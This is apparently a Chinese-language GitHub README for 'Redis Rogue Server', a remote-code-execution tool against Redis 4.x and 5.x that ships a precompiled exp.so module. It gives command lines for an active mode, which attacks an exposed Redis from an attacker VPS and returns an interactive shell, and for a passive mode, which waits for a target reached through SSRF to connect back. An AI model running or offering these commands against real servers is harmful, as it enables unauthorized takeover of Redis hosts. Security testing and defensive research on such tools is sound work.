 # Redis Rogue Server

Redis 4.x/Redis 5.x RCE利用脚本, 涉及技术点可参考 [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

经测试Redis 5.0.8也可以使用，没有出现ppt上写的5.0无法set/get config的情况.

## Usage

编译.so模块, 代码: <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

将.so与 `redis-rogue-server.py`放置在同一目录下

项目自带了一个编译好的的exp.so文件, 可直接使用

### 主动连接模式

适用于目标Redis服务处于外网的情况
- 外网Redis未授权访问
- 已知外网Redis口令

启动redis rogue server，并主动连接目标redis服务发起攻击

```bash
python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port>
```

参数说明：
- `--rpasswd` 如果目标Redis服务开启了认证功能，可以通过该选项指定密码
- `--rhost` 目标redis服务IP
- `--rport` 目标redis服务端口，默认为6379
- `--lhost` vps的外网IP地址
- `--lport` vps监控的端口，默认为21000

攻击成功之后，你会得到一个交互式shell

### 被动连接模式

适用于目标Redis服务处于内网的情况
- 通过SSRF攻击Redis
- 内网Redis未授权访问/已知Redis口令, Redis需要反向连接redis rogue server

这种情况下可以使用`--server-only`选项

```bash
python3 redis-rogue-server.py --server-only
```

参数说明：
- `--server-only` 仅启动redis rogue server, 接受目标redis的连接，不主动发起连接

## Copyright

本项目为[n0b0dyCN](https://github.com/n0b0dyCN)同名项目的fork, 在原项目代码基础之上修复了一些bug, 添加了一些新功能, 并针对不同漏洞利用场景做了一些优化。

因原作者删掉了原始repo, 所以直接挂到了我下面。

本项目版权归[Dliv3](https://github.com/Dliv3)和[n0b0dyCN](https://github.com/n0b0dyCN)所有。

# 404StarLink 2.0 - Galaxy

![](https://github.com/knownsec/404StarLink-Project/raw/master/logo.png)

[Redis Rogue Server](https://github.com/Dliv3/redis-rogue-server) 是 404Team [星链计划2.0](https://github.com/knownsec/404StarLink2.0-Galaxy)中的一环，如果对[Redis Rogue Server](https://github.com/Dliv3/redis-rogue-server)有任何疑问又或是想要找小伙伴交流，可以参考星链计划的加群方式。

- [https://github.com/knownsec/404StarLink2.0-Galaxy#community](https://github.com/knownsec/404StarLink2.0-Galaxy#community)
